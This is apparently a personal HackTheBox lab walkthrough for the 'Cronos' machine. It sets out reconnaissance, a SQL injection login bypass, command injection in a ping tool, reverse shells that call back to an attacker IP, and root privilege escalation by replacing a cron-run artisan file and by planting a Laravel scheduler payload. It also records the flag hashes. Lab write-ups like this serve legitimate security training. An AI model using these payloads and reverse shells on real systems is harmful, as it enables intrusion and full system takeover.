


## Reconnaissance

### nmap 

```
nmap -sC -sV -oA cronos 10.129.227.211
```


- Result:
    - HTTP on port 80
    - DNS on port 53
    - SSH on port 22

### website

- This is an Apache site 


### gobuster


### nslookup


- Set hosts 
```
vim /etc/hosts
```


### Zone Transfer


### website -2 


- Github


- Forge


- News


- Laracasts


- Documentation


- Admin page


### gobuster -2

```
gobuster dir -u http://cronos.htb -w /usr/share/wordlists/dirv/common.txt
```



```
gobuster dir -u http://admin.cronos.htb -w /usr/share/wordlists/dirb/common.txt
```


### website -3 

- According to gobuster result
- Here is a Web config cna check. 


## Exploit 

- Admin login page 
- Common Credential failed
- Try SQL injection in username and password 
- Try the following payload in username, then I login...
```
' or 1=1#
```

- Welcome page


- This is a net tools page which provide 2 features:
    1. Traceroute
    2. ping


- Try command injection, insert the following in input box 
```
8.8.8.8 | ls 
```


- Check user 
```
8.8.8.8 | id
```


- Check current directory 
```
8.8.8.8 | pwd
```


- Check home directory
```
8.8.8.8 | ls /home
```


- Get user flag: ``` ae69d8b809c1c5509d4c0e183ca89f74  ```
```
8.8.8.8 | cat /home/noulis/user.txt
```


## Post Exploitation

- Using command injection to create RCE
- Here are 2 method, I will recommend to use second one

1. ``` bash -c 'bash -i >& /dev/tcp/10.10.17.145/1337 0>&1'```


2. (**Recommend**)Create a php reverse shell file and upload it to victim. ``` wget http://10.10.17.145:9797/php-reverse-shell/php-reverse-shell.php```


- Access it (http://admin.cronos.htb/php0reverse-shell.php)


- Execute nc to listen on port 1337, and check the status, it might get the reverse shell
```
nc -nlvp 1337
```


- I also can know the current user is ```www-data```


- After get the reverse shell, get fully interaction shell first
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo
```
- check the content in user directory.


- Confirm the sudo permission and use external script to enumerate the linux server

1. ```sudo -l ```, it ask about password which I don't know, so it failed.
2. Upload linpeas shell file
```
wget http://10.10.17.145:9797/linpeas.sh
```


- Execute the linpeas
- First, I know the ssh related directory location


- Second, I get the cron job information.




- So, I tried to get information from ssh, but I can't find private key.
- Then, I checked cron job, an interesting job in here 
```
php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```


### Privilege Escalation - 1

- First, I move into ```/var/www/laravel``` to check the artisan file 
- The artisan file belongs to ```www-data```


- And according to the cronjob, I think the artisan will be execute every minute.


- So, I want to create another reverse shell to replace the artisan file.
- Then the cron will make the php file be executed automatically, and it will use root permission to execute it.
- Upload reverse shell to victim 
```
wget http://10.10.17.145:9797/php-reverse-shell/php-reverse-shell.php
```


- Change the reverse shell file name and replace the origin artisan file
```
mv php-reverse-shell.php escalate.php
mv escalate.php ../laravel/artisan
```


- Check the shell content, I set the listen port on 1336


- Execute nc to listen on port 1336
```
nc -nlvp 1336
```
- Wait for a miniute, then the nc will get the shell


- And I also can find that the user become to root


- Get root flag: ``` 487a4eadc3980bdc26838ab23697c379 ```


### Privilege Escalation -2 
####  Research for laravel schedule

>The scheduler allows you to fluently and expressively define your command schedule within your Laravel application itself. When using the scheduler, only a single cron entry is needed on your server. 
>Your task schedule is defined in the ```app/Console/Kernel.php``` file's ```schedule``` method.


- According to above, the task schedule defined in ```app/Console/kernel.php```, Check it.


- And according to official document, the schedule will call ```exec``` function.
- And in kernel php file can set up the how long the schedule will be execute.


- I think that is one of the entry point to escalate the privilege.

### Exploit 

1. Check the origin Kernel php file under ```/var/www/laravel/app/Consoles/Kernel.php```


2. Using nc to trasfer it from victim to attack
- On victim
```
nc -l -p 4444 < Kernel.php
```


- On Attacker
```
nc -w 3 10.129.228.125 4444 > Kernel.php
```


3. Edit Kernel php file with following payalod in schedule function
```
$schedule->exec('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.17.145/1335 0>&1"')->everyMinute();
```


4. Transfer the modified one back to victim
- On Attacker
```
nc -l -p 4444 < Kernel.php
```


- On Victim
```
nc -w 3 10.10.17.145 4444 > Kernel.php
```


- Execute nc to listen on port 1335, and wait for a while.
- Then we can get the root shell


## Reference 

### Escalation method -1 
- [(Writeup) cronos](https://systemweakness.com/htb-cronos-walkthrough-3f669386b681)
- [(Writeup) cronos](https://medium.com/swlh/hack-the-box-cronos-writeup-w-o-metasploit-7b9453e557d0)
### Escalation method -2 

- [(Writeup) cronos](https://sevenlayers.com/index.php/133-hackthebox-cronos-walkthrough)
- [(Writeup) cornos](https://www.noobsec.net/hackthebox/htb-cronos/)
- [(Tools) nc transfer file](https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea)
- [(HackTrick) DNS](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns)
- [OS Command Injection](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [(HackTrick) Laravel](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel)
- [(HackTrick) Apache](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/apache)
- [(Laravel)Task Scheduling](https://laravel.com/docs/9.x/scheduling)
- [(Reverse shell)penetestmonkey-php reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
- [(Reverse shell)penetestmonkey-php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)


###### tags: `HackTheBox` `linux` `medium` `command injection` `SQL Injection` `SQLi` `laravel` `php task schedule` `nc transfer file`